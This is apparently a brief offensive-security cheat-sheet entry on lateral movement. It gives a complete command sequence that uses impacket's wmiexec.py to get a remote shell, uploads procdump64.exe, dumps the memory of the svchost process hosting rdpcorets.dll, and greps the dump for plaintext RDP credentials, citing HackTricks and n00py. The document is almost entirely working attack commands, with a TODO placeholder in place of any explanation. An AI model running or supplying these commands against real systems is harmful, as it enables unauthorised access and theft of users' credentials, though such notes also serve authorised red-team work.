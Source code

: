 # Unix Shell

Search Tag(s): #lateral-movement #impacket

TODO: Fill in the info

```
$ wmiexec.py <username>:<password>@<IP>

C:\> tasklist /M:rdpcorets.dll

C:\> lput /path/to/local/procdump64.exe

C:\> procdump64.exe -ma <svchost.exe_pid> rdpcreds.dmp

C:\> lget rdpcreds.dmp

C:\> exit
```

`$ strings -el rdpcreds.dmp | grep <username> -C1`

---
## References

- [Hacktricks: RDP Sessions Abuse](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/rdp-sessions-abuse)

- [n00py: Dumping Plaintext RDP credentials from svchost.exe](https://www.n00py.io/2021/05/dumping-plaintext-rdp-credentials-from-svchost-exe/)